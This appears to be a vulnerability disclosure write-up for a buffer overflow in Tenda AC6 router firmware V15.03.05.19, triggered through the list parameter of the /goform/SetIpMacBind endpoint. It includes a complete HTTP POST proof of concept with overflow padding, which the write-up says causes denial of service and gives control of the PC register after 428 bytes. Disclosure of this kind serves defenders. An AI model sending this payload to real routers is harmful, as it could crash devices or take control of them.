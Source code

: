 # Tenda AC6V1.0 V15.03.05.19 was discovered to contain a buffer overflow via the list parameter in the fromSetIpMacBind function.

## Description

`Tenda`  Router **AC6V1.0 V15.03.05.19** was discovered to contain a buffer overflow in the `httpd` module when handling `/goform/SetIpMacBind` request.

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2681.html

## Affected version

![](images/01.png)

## Vulnerability details

This vulnerability lies in the `/goform/SetIpMacBind` page，The details are shown below:

![image-20221118155739854](images/02.png)

## POC

This POC can result in a Dos.

```
POST /goform/SetIpMacBind HTTP/1.1
Host: 192.168.204.133
Content-Length: 453
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.204.133
Referer: http://192.168.204.133/parental_control.html?random=0.7058891673130268&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=iqb1qw; bLanguage=cn
Connection: close

bindnum=1&list=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\n
```

![image-20221118151225120](images/03.png)

Using A*428 to padding, we can control PC register

![image-20221118163539415](images/04.png)